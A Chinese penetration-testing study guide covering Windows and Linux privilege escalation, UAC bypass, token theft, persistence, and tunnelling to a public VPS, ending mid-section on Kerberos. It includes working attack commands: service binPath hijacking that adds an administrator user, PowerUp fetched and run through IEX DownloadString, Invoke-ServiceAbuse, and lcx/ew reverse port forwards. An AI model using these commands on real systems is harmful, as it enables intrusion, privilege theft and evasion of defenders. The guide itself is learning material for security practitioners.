# 内网学习路线整理 - 先知社区

内网学习路线整理

- - -

学习思路

## Windows 提权

`学习windows提权，bypass UAC（内核提权会用exp打就行）`  
常见的 Windows 提权方法分为：`系统内核溢出漏洞提权、数据库提权、错误的系统配置提权、组策略首选项提权、WEB中间件漏洞提权、DLL劫持提权、滥用高危权限令牌提权、第三方软件/服务提权等`

下面我们讲述一下这些常见的提权方式

```plain
#手工查找补丁情况
systeminfo
Wmic qfe get Caption,Description,HotFixID,InstalledOn

#MSF 后渗透扫描
post/windows/gather/enum_patches
post/multi/recon/local_exploit_suggester

#windows exploit suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#powershell 中的 sherlock 脚本
Import-Module C:\Sherlock.ps1 #下载 ps1 脚本，导入模块
Find-AllVulns

#Empire 内置模块 Empire 框架也提供了关于内核溢出漏洞提权的漏洞利用方法
usemodule privesc/powerup/allchecks
execute
```

`提供一些缺失补丁系统版本的`

```plain
https://github.com/SecWiki/windows-kernel-exploits
https://bugs.hacking8.com/tiquan/
https://github.com/Heptagrams/Heptagram/tree/master/Windows/Elevation
https://www.exploit-db.com/
https://i.hacking8.com/tiquan/
```

### 基础提权命令

```plain
查询系统信息
systeminfo 
如果要查看特定的信息，可以使用
systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"
主机名
Hostname
环境变量
Set
查看用户信息
Net user
查看服务 pid 号
Tasklist /svc|find "TermService"
netstat -ano|find "3389"
查看系统名
wmic os get caption
查看补丁信息
wmic qfe get Description,HotFixID,InstalledOn
如果要定位到特定的补丁可以使用如下命令
wmic qfe get Description,HotFixID,InstalledOn | findstr /C:"KB4346084" /C:"KB4509094"
查看当前安装程序
wmic product get name,version
```

### 错误配置提权

```plain
#powerup 提供了一些本地提权的方法，可以通过很多实用的脚本来寻找目标机器的 windows 服务漏洞
https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
可直接通过 powershell 远程加载
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"


#msf 对应的模块为 exploit/windows/local/service_permissions  但前提是获得一个会话
run exploit/windows/local/service_permissions #自动化提权，回来的的权限就是 system


#当工具无法使用时，也可以手工查找，使用 Windows 内建工具 icacls 查看服务启动路径中写权限
例如：icacls "C:\Program Files"
icacls "C:\Program Files\Common Files"

#查看指定目录的权限配置情况
accesschk.exe -dqv "D:\test" -accepteula
参数说明：“M”表示修改，“F”代表完全控制，“CI”代表从属容器将继承访问控制项，“OI”代表从属文件将继承访问控制项。

#检查服务 如果是.SERVICE_ALL_ACCESS 的意思是我们对“Vulnerable Service”的属性拥有完全控制权
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
sc qc 服务名   #查看可以完全控制的服务的属性。
```

`辅助提权站点`

-   [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
-   [https://wiki.0-sec.org/#/index](https://wiki.0-sec.org/#/index)
-   [https://github.com/neargle/win-powerup-exp-index](https://github.com/neargle/win-powerup-exp-index)
-   [http://blog.neargle.com/win-powerup-exp-index/](http://blog.neargle.com/win-powerup-exp-index/)
-   [https://detect.secwx.com](https://detect.secwx.com/)

这里进行细分，我们了解一下什么是`系统服务权限配置错误`  
原理：在 Windows 系统服务文件在操作系统启动时加载并执行，并调用可执行文件。这时当一个`低权限用户存在可执行文件读写权限，就可以将该文件进行替换，从而随着系统服务启动获取系统权限。一般情况下，Windows是以System权限执行`

### accesschk 工具

下载链接：[https://download.sysinternals.com/files/SysinternalsSuite.zip](https://download.sysinternals.com/files/SysinternalsSuite.zip)  
命令如下

```plain
accesschk.exe -uwcqv "XXX" * /accepteula > 1.txt //这里 XXX 为当前用户名
```

如果出现 `SERVICE_ALL_ACCESS`表示当前用户拥有修改权限  
[](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696645051044-014230c1-df7a-4ff6-b4ff-ff4c4596fd3a.png#averageHue=%23fcfbfa&clientId=u08e1c2d2-d79d-4&from=paste&height=420&id=uf1224b76&originHeight=840&originWidth=1074&originalType=binary&ratio=2&rotation=0&showTitle=false&size=356623&status=done&style=none&taskId=u28058e21-b7b0-43ca-bc39-1c5853754a4&title=&width=537)  
进一步查看该服务的启动权限，这里以`VMTools`为例  
执行命令`sc qc VMTools`  
[](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696645669437-c247dd5f-844e-4b34-a4a9-a0cfcaa33edf.png#averageHue=%230b0b0b&clientId=u08e1c2d2-d79d-4&from=paste&height=235&id=ue169aa0d&originHeight=470&originWidth=1468&originalType=binary&ratio=2&rotation=0&showTitle=false&size=219984&status=done&style=none&taskId=u464c6b5f-01a6-42d5-b16e-c671588af33&title=&width=734)  
然后利用 sc 命令修改执行文件路径

```plain
# 注意这里的"="后面要留有空格
sc config VMTools binPath= "net user test1 P@ssw0rd /add"  

# 查看查询该服务的执行路径是否修改成功
sc qc VMTools  

# 记得重启服务
sc stop VMTools
sc start VMTools

# 这里启动时可能存在报错，服务和 Windows 系统服务控制管理器通信会被认为错误，但命令会正常执行
```

自带命令 `icacls`  
命令如下

```plain
确定写入权限：icacls "C:\Program Files\program folder"
## 定义：
「M」表示修改、「F」表示完全控制
「CI」代表从属容器将继承访问控制项
「OI」代表从属文件将继承访问控制项

常用命令
icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files(x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"
icacls "C:\Program Files(x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"
```

### PowerSploit

利用 powershell 命令远程下载调用

```plain
powershell.exe -exec bypass -nop -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"

powershell.exe -exec bypass -Command "& {Import-Module D:/PowerUp.ps1; Invoke-AllChecks}" > 1.txt
```

[](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696646494329-3f8e16fb-2c47-424b-a886-2c8aee0a2c98.png#averageHue=%23fcfbf9&clientId=u08e1c2d2-d79d-4&from=paste&height=284&id=ud83136c2&originHeight=568&originWidth=1476&originalType=binary&ratio=2&rotation=0&showTitle=false&size=485000&status=done&style=none&taskId=uea497478-db9a-4438-9c0a-9f147a1deca&title=&width=738)

-   ServiceName：可能存在漏洞的服务
-   Path：该服务的可执行程序的路径
-   StartName：服务运行账号
-   AbuseFunction：利用方式

`执行命令，这里以VMTools为例`  
添加 test 用户

```plain
powershell.exe -exec bypass -Command "& {Import-Module C:/PowerUp.ps1;Invoke-ServiceAbuse -Name 'VGAuthService' -Username test -Password 123456}"
```

## Bypass UAC

```plain
#Msf
exploit/windows/local/ask       #弹出 UAC 确认窗口，点击后获得 system 权限

exploit/windows/local/bypassuac  #此模块将通过进程注入使用可信任发布者证书绕过 Windows UAC，它将生成关闭 UAC 标志的第二个 shell。

exploit/windows/local/bypassuac_injection #此模块将通过进程注入使用可信任的发布者证书绕过 Windows UAC。它将生成关闭 UAC 标志的第二个 shell。在普通技术中，该模块使用反射式 DLL 注入技术并只除去了 DLL payload 二进制文件，而不是三个单独的二进制文件。但是，它需要选择正确的体系架构（对于 SYSWOW64 系统也使用 x64）。如果指定 exe::custom，应在单独的进程中启动 payload 后调用 ExitProcess（）


exploit/windows/local/bypassuac_fodhelper#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows fodhelper.exe 应用程序时调用的自定义命令来绕过 Windows 10 UAC。它将生成关闭 UAC 标志的第二个 shell。此模块修改注册表项，但在调用 payload 后将清除该项。该模块不需要 payload 的体系架构和操作系统匹配。如果指定 exe:custom，则应在单独的进程中启动 payload 后调用 ExitProcess（）。

exploit/windows/local/bypassuac_eventvwr#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows事件查看器时调用的自定义命令来绕过Windows UAC。它将生成关闭 UAC 标志的第二个 shell。此模块修改注册表项，但在调用 payload 后将清除该项。该模块不需要 payload 的体系架构和操作系统匹配。如果指定 EXE ::Custom，则应在单独的进程中启动 payload 后调用 ExitProcess（）

exploit/windows/local/bypassuac_comhijack#此模块将通过在hkcu配置单元中创建COM处理程序注册表项来绕过Windows UAC。当加载某些较高完整性级别进程时，会引用这些注册表项，从而导致进程加载用户控制的 DLL，这些 DLL 包含导致会话权限提升的 payload。此模块修改注册表项，但在调用 payload 后将清除该项，这个模块需要 payload 的体系架构和操作系统匹配，但是当前的低权限 meterpreter 会话体系架构中可能不同。如果指定 exe:：custom，则应在单独的进程中启动 payloa 后调用 ExitProcess（）。此模块通过目标上的 cmd.exe 调用目标二进制文件，因此，如果 cmd.exe 访问受到限制，此模块将无法正常运行。

#Powershell
Invoke-PsUACme

#Empire
usemodule privesc/bypassuac
usemodule privesc/bypassuac_wscript
```

### 令牌窃取 - 可用

访问令牌 (Access Token)：表示访问控制操作主体的系统对象。  
会话令牌 (Session Token)：是交互会话中唯一的身份标识符。  
密保令牌 (Security Token)：又叫做认证令牌或硬件令牌，是一种计算机身份校验的物理设备，例如 U 盾。

```plain
#msf 拿到一个会话
use incognito           #进入 incognito 模块
list_tokens -u          #列出令牌
Delegation Token：也就是授权令牌，它支持交互式登录 (例如可以通过远程桌面登录访问)
Impresonation Token：模拟令牌，它是非交互的会话。

这里窃取令牌，主要是窃取进程中的令牌
#使用令牌假冒用户
impresonate_Token "令牌名"
```

## Windows-Exploit-Suggester

直接调用进行搜索缺失补丁提权  
[](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696647087682-c3a89adf-c16c-46c9-ad3c-35cfc369fcb2.png#averageHue=%23f8f7f6&clientId=u08e1c2d2-d79d-4&from=paste&height=150&id=u1ffeab42&originHeight=300&originWidth=1482&originalType=binary&ratio=2&rotation=0&showTitle=false&size=71109&status=done&style=none&taskId=u0d036969-1833-471e-8593-82744a16219&title=&width=741)

### 土豆系列提权！！！

这里如果是哥斯拉上马，是可以用自带的土豆系列提权  
附上：  
[https://github.com/breenmachine/RottenPotatoNG/](https://github.com/breenmachine/RottenPotatoNG/) （烂土豆）  
直接来个复现咯，[Windows 烂土豆本地复现](https://blog.csdn.net/oiadkt/article/details/129396700)  
[https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato) （甜土豆）

说了这么多，那究竟什么是土豆系列呢？当然，你也可以理解为生活中的土豆哈哈哈。原理如下，烂土豆简介 (MS16-075 提权)，是只针对本地用户，这里不支持域用户。当攻击者转发同意计算机上的其他服务身份验证时，利用 Miscrosoft 服务器消息块 `SMB存在特权提权漏洞`  
影响版本：`**Windows 7、Windows 8.1、Windows 10、Windows Server 2008、Windows Server 2012 **等，以上版本系统若未安装相应补丁，则大概率存在此漏洞。`

提权原理：

1.  欺骗 "NT AUTHORITY\\SYSTEM" 账户通过 NTLM 认证到我们控制的 TCP 终端。
2.  对这个认证过程使用中间人攻击（NTLM 重放），为“NT AUTHORITY\\SYSTEM”账户本地协商一个安全令牌（过程为通过一系列的 Windows API 调用）。
3.  模仿这个令牌，只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌，一般大多数的服务型账户（IIS、MSSQL 等）有这个权限，大多数用户级的账户没有这个权限。

`甜土豆`

```plain
Sweetpotato.exe -l 8888 -a "whoami"
```

这里如果我们有`CS`，也可以调用武器库直接提权

提权的姿势五花八门，可参考学习以下链接，实战遇到的话  
[Windows 可提权方式总结](https://www.geekby.site/2021/01/windows%E6%8F%90%E6%9D%83%E6%96%B9%E5%BC%8F%E6%80%BB%E7%BB%93/#4-alwaysinstallelevated-%E6%8F%90%E6%9D%83)  
[https://cloud.tencent.com/developer/article/1771226](https://cloud.tencent.com/developer/article/1771226)

### Psexec 提权 system

可以使用`PsExec.exe`获取 SYSTEM 权限  
进行内网信息收集需要具有一定的权限，所以先进行提权获取 SYSTEM 权限。

```plain
PsExec.exe -s -i -d cmd
```

[](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696918501098-4078ff84-e47d-4efb-8a4f-b033bdaf1a2b.png#averageHue=%23d2d1ce&clientId=u99ba73f8-1008-4&from=paste&height=349&id=u332f6d2d&originHeight=697&originWidth=1394&originalType=binary&ratio=2&rotation=0&showTitle=false&size=145733&status=done&style=none&taskId=u4278b54c-d296-46a0-9df9-75c77fec14d&title=&width=697)

学习 linux 提权（内核提权会用 exp 打就行）

## Linux 提权系列

具体去分析，一般来说拿到`shell` 后如果是低权限，这时就需要运用到如下的操作  
之前是有总结过这一块的，比较常用的几种方式

1.  SUID 提权 - [GTFOBins](https://gtfobins.github.io/)
2.  计划任务提权 - 配合 Redis
3.  内核提权 - 上通杀
4.  Mysql 数据库提权-UDF
5.  环境变量提权 - 存在一个以 root 权限运行的 C 文件
6.  第三方服务提权-NFS 服务-phpmyadmin 等
7.  docker 提权 - 经常碰到
8.  ssh 密钥提权

### 小工具

可用的一些小工具，主打一个配合：

#### LinEnum.sh

介绍：收集系统信息、用户信息、历史命令信息等等  
下载地址：[https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)  
运行：./LinEnum.sh

- - -

#### linux-exploit-suggester.sh

介绍：此工具可以扫描系统存在的可用于提权的漏洞，以及 exp 的下载链接  
下载地址：[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)  
运行：./linux-exploit-suggester.sh

- - -

#### Linuxprivchecker.py

介绍：该脚本旨在在 Linux 机器上本地执行，以枚举基本系统信息并搜索常见的权限升级向量，例如全局可写文件、错误配置、明文密码和适用的漏洞利用。  
下载地址：[https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)  
运行：python Linuxprivchecker.py

好文：  
[https://xz.aliyun.com/t/7924](https://xz.aliyun.com/t/7924) --- 永遠的神  
[https://bbs.zkaq.cn/t/6624.html](https://bbs.zkaq.cn/t/6624.html)  
[红队笔记反弹 shell](https://cloud.tencent.com/developer/article/1988379)

# 权限维持

`学习windows、linux权限维持`

当我们获取系统权限后，为了防止蓝队应急判断到可疑用户导致权限丢失，这是我们需要绕过蓝队或安全防护就需要用到`权限维持技术`  
参考文章：[https://blog.csdn.net/weixin\_53912233/article/details/131193341](https://blog.csdn.net/weixin_53912233/article/details/131193341)  
绝绝绝 [Windows 最常用的权限维持技术](https://blog.csdn.net/weixin_53912233/article/details/131193341)

## 权限维持的意义

如果系统管理员或事件响应者决定查看会话日志或他们认为这是可疑的账户日志，因此他们会怀疑此已经账户被盗用，然后更改密码和终止符访问权限，因此我们为了绕过蓝队或安全防护就需要权限维持技术

## 内网代理学习

学会搭代理，推荐工具 lcx、nps、frp \\reGeorgSocksProxy  
在渗透过程中，当我们拿下一台主机后，需要进一步横向渗透。这时候就可以将`内网流量代理到本地`

### reGeorgSocksProxy.py 隧道代理

下载文件如下：  
[](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696918030148-a194ffd9-1d95-45cf-a417-7829de3e8d68.png#averageHue=%23fafaf9&clientId=u99ba73f8-1008-4&from=paste&height=315&id=u61eef4a8&originHeight=629&originWidth=1558&originalType=binary&ratio=2&rotation=0&showTitle=false&size=95937&status=done&style=none&taskId=uc136ac2f-727f-491a-85ea-4f6d961a5dd&title=&width=779)  
这里以 php 站点为例，比如正常用蚁剑连接获取 shell 后，将 `tunnel.nosocket.php`放到网站根目录可访问即可，这里举例 IP 为 192.168.1.1

然后 Windows 本地运行命令

```plain
python reGeorgSocksProxy.py -l 127.0.0.1 -p 3344 -u http://192.168.1.1/tunnel.nosocket.php
```

最后利用工具 `Proxifier`设置远程桌面程序 从本地端口 `3344`进行出网  
[](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696918203819-12ceef19-4d4a-4314-a1b8-11ea627fed8b.png#averageHue=%23f1f1f1&clientId=u99ba73f8-1008-4&from=paste&height=335&id=u857d23d6&originHeight=669&originWidth=1401&originalType=binary&ratio=2&rotation=0&showTitle=false&size=102944&status=done&style=none&taskId=u57926e1b-4874-4999-99d8-4277f57e2f4&title=&width=700.5)  
配置如下  
[](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696918257458-8f7298d5-3f20-4019-8dbb-6b866631df04.png#averageHue=%23f0f0f0&clientId=u99ba73f8-1008-4&from=paste&height=312&id=u9ee3af8f&originHeight=623&originWidth=1382&originalType=binary&ratio=2&rotation=0&showTitle=false&size=108580&status=done&style=none&taskId=u5f542ca9-ce23-4fb2-b486-72b6ade31b7&title=&width=691)  
然后通过 mstsc 命令直接远程连接  
[](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696918248539-094b332d-3e1c-4783-a399-3d52c625adfc.png#averageHue=%23f2f2f2&clientId=u99ba73f8-1008-4&from=paste&height=323&id=ud11a3537&originHeight=646&originWidth=1366&originalType=binary&ratio=2&rotation=0&showTitle=false&size=134528&status=done&style=none&taskId=u9da39e3a-048f-477d-96c5-9351be0fa12&title=&width=683)

### msf 转发 portfwd

这里需要用到 `portfwd`命令

```plain
#1.利用 msf 内置端口转发功能，将 3389 端口进行映射本地 5555 端口
portfwd add -l 5555 -p 3389 -r 本地 IP 地址

#2.直接调用 rdesktop
rdesktop 127.0.0.1:5555
```

### lcx.exe

使用条件：服务器通外网，拥有自己的公网 ip  
说明：lcx 是一个经典的端口转发工具，可以直接把`3389端口转发到公网的vps上`  
命令如下

```plain
# 拿到 shell 后执行命令
lcx.exe -slave 1.1.1.1 9999 127.0.0.1 3389  ## 1.1.1.1 为公网 IP，转发 3389 端口到 9999 端口

# 配合 Linux 对应工具 portmap
./portmap -m 2 -p1 9999 -p2 33889  ## 这里 p1 对应监听端口，p2 对应要转发的端口

## Windows 远程连接 mstsc
rdesktop 1.1.1.1:33889
```

## 基于 web 服务的 socks5 隧道

常用的工具有：reGeorg，reDuh，Tunna 和 Proxifier  
先利用 `reGeorgSocksProxy.py`进行生成一个隧道，-p 为指定隧道的端口，-u 为刚刚上传的 tunnel 文件地址。

```plain
python reGeorgSocksProxy.py -p 8888 -u http://x.x.x.x/tunnel.php
```

然后利用 socks5 代理指定的端口

### ew 搭建 socks5 隧道

目标主机为 windows 系统，选择上传 ew\_for\_Win.exe 文件。  
公网 vps 使用 ew\_for\_linux64 文件

```plain
## VPS 上执行
./ew_for_linux64 -s rcsocks -l 1080 -e 9999

## 然后在目标执行
ew_for_Win.exe -s rssocks -d 1.1.1.1 -e 11000
```

## 协议概念

学习 ntlm、kerberos、smb 协议，以及 ACL,SACL 概念

### NTLM 认证协议

`NTLM协议`基于 NTLM hash，windows 本地登陆的密码由 LM hash 和 NTLM hash 组成，存储在 SAM 文件中，前一部分是 LM Hash，后一部分是 NTLM Hash。

### Kerberos 认证协议

`kerberos协议` 是一种网络认证协议，整个认证过程涉及到三方，包含客户端、服务端和 KDC，而在 Windows 域环境中，KDC 的角色是由 DC 域控制器来担当  
其中 `KDC`中包括 AS（认证服务器）和 TGS（Ticket GrantingServer 票据服务器）和 AD（活动目录）  
整体流程如下

